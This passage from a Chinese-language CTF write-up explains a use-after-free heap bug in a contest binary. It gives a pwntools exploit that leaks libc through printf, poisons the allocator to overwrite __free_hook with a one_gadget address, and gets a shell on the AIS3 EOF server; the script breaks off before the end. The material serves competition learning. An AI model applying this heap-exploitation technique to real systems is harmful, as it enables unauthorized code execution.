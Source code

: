```cpp
  exit(0);
}
```

可以看到他free掉之後還繼續寫東西，不過我其實不知道這樣會怎樣w

比賽的時候去看了[CTF-wiki](https://ctf-wiki.github.io/ctf-wiki/pwn/linux/glibc-heap/fastbin_attack-zh/#arbitrary-alloc)，發現我只要malloc, free, write, malloc, malloc就可以任意寫值，同時也看到有個東西是\_\_free\_hook，會在free的時候執行他指向的內容，所以我們就把他只到one gadget上就可以get shell了

附個exploit
```python
#!/usr/bin/env python3
from pwn import *

context.arch = 'amd64'
# context.log_level = 'debug'

# one_gadget = 0x10a38c
# libc = ELF('/lib/x86_64-linux-gnu/libc-2.27.so')
# o = process('./tt')
one_gadget = 0x106ef8
libc = ELF('libc-2.29.so')
o = remote('eof.ais3.org', 10105)

o.recvuntil(':P')
printf = int(o.recvline().strip(), 16)
libc_pos = printf - libc.sym.printf

print("libc = %x" % libc_pos)

o.recvuntil('choice:')
o.sendline('1')
o.recvuntil('Size:')
o.sendline('100')

o.recvuntil('choice:')
o.sendline('2')
o.recvuntil('Offset:')
o.sendline('0')

o.recvuntil('choice:')
o.sendline('3')
o.recvuntil('Data:')
o.send(p64(libc_pos + libc.sym.__free_hook)[:6])

o.recvuntil('choice:')
o.sendline('1')
o.recvuntil('Size:')
o.sendline('100')

o.recvuntil('choice:')
o.sendline('1')
o.recvuntil('Size:')
o.sendline('100')

o.recvuntil('choice:')
o.sendline('3')
o.recvuntil('Data:')
o.send(p64(libc_pos + one_gadget)[:6])

o.recvuntil('choice:')
o.sendline('2')
o.recvuntil('Offset:')
```